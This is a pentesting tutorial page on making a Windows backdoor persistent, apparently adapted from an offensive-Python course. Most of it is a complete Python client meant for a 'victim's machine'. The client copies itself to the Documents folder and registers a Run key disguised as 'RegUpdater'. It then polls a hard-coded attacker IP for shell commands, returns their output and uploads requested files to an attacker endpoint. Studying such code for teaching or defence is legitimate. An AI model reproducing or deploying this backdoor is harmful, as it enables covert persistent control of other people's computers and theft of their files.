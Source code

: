 ```yaml
---
title: Making your binary persistent
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting, python
---
```


# Making your binary persistent

In order for a binary to persist, the binary must do three things:

**1.** To copy itself into a different location. We need source path (current working directory) and destination path, for instance, the Document folder. This means that we need to know the username: 

	```cmd
		c:\Users\<username>\Documents
	```
	
**2.** To add a registry key pointing to our new exe location. This is done only the first time.

**3.** For consecutive times, we have to avoid repeating steps 1 and 2.


## Phases for persistence

### 1. System recognition

Getting to know the current working directory + the user profile.


### 2. Copy the binary to a different location

If the binary is not found in the destination folder, we can assume this is the first time we're running it. Then:

We will copy the binary to a different location. For that, we need a source path (current working directory) and a destination path, for instance, the Document folder. This means that we need to know the current working directory (for the source path)  and the username (for the destination path): 

	```cmd
		c:\Users\<username>\Documents
	```

This information was already retrieved in step 1 (System recognition).

### 3. Add a Registry key 

If the binary is not found in the destination folder, we can assume this is the first time we're running it. Then:

We will add a Registry key.

### 4. Fire up our shell


## Client side

To be run on our victim's machine.

```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2

import requests
import os
import subprocess
import time
import shutil 
import winreg as wreg

#Reconn Phase
path = os.getcwd().strip('/n')

Null, userprof = subprocess.check_output('set USERPROFILE', shell=True,stdin=subprocess.PIPE,  stderr=subprocess.PIPE).decode().split('=')

destination = userprof.strip('\n\r') + '\\Documents\\' + 'client.exe'

#If it was the first time our backdoor gets executed, then Do phase 1 and phase 2 
if not os.path.exists(destination):
    shutil.copyfile(path+'\client.exe', destination) #You can replace   path+'\client.exe' with sys.argv[0] ---> the sys.argv[0] will return the file name

    key = wreg.OpenKey(wreg.HKEY_CURRENT_USER, "Software\Microsoft\Windows\CurrentVersion\Run", 0, wreg.KEY_ALL_ACCESS)
    wreg.SetValueEx(key, 'RegUpdater', 0, wreg.REG_SZ, destination)
    key.Close()



#Last phase is to start a reverse connection back to our kali machine

while True:
    req = requests.get('http://192.168.0.152:8080')
    command = req.text
    if 'terminate' in command:
        break
    elif 'grab' in command:
        grab, path = command.split("*")
        if os.path.exists(path):
            url = "http://192.168.0.152:8080/store"
            files = {'file': open(path, 'rb')}
            r = requests.post(url, files=files)
        else:
            post_response = requests.post(url='http://192.168.0.152:8080', data='[-] Not able to find the file!'.encode())
    else:
        CMD = subprocess.Popen(command, shell=True,stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        post_response = requests.post(url='http://192.168.0.152:8080', data=CMD.stdout.read())
        post_response = requests.post(url='http://192.168.0.152:8080', data=CMD.stderr.read())
    time.sleep(3)


```
